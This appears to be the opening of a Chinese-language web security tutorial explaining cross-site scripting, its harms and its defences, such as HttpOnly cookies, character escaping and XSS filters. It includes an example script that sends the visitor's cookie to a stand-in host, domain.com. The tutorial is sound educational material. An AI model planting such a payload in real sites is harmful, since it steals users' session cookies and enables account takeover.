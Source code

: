 
* [一、跨站腳本攻擊](#一跨站腳本攻擊)
* [二、跨站請求偽造](#二跨站請求偽造)
* [三、SQL 注入攻擊](#三sql-注入攻擊)
* [四、拒絕服務攻擊](#四拒絕服務攻擊)
* [參考資料](#參考資料)



# 一、跨站腳本攻擊

## 概念

跨站腳本攻擊（Cross-Site Scripting, XSS），可以將代碼注入到用戶瀏覽的網頁上，這種代碼包括 HTML 和 JavaScript。

## 攻擊原理

例如有一個論壇網站，攻擊者可以在上面發佈以下內容：

```html
<script>location.href="//domain.com/?c=" + document.cookie</script>
```

之後該內容可能會被渲染成以下形式：

```html
<p><script>location.href="//domain.com/?c=" + document.cookie</script></p>
```

另一個用戶瀏覽了含有這個內容的頁面將會跳轉到 domain.com 並攜帶了當前作用域的 Cookie。如果這個論壇網站通過 Cookie 管理用戶登錄狀態，那麼攻擊者就可以通過這個 Cookie 登錄被攻擊者的賬號了。

## 危害

- 竊取用戶的 Cookie
- 偽造虛假的輸入表單騙取個人信息
- 顯示偽造的文章或者圖片

## 防範手段

### 1. 設置 Cookie 為 HttpOnly

設置了 HttpOnly 的 Cookie 可以防止 JavaScript 腳本調用，就無法通過 document.cookie 獲取用戶 Cookie 信息。

### 2. 過濾特殊字符

例如將 `<` 轉義為 `&lt;`，將 `>` 轉義為 `&gt;`，從而避免 HTML 和 Jascript 代碼的運行。

富文本編輯器允許用戶輸入 HTML 代碼，就不能簡單地將 `<` 等字符進行過濾了，極大地提高了 XSS 攻擊的可能性。

富文本編輯器通常採用 XSS filter 來防範 XSS 攻擊，通過定義一些標籤白名單或者黑名單，從而不允許有攻擊性的 HTML 代碼的輸入。

以下例子中，form 和 script 等標籤都被轉義，而 h 和 p 等標籤將會保留。

```html
<h1 id="title">XSS Demo</h1>

<p>123</p>

<form>
  <input type="text" name="q" value="test">
</form>

<pre>hello</pre>

<script type="text/javascript">
alert(/xss/);
```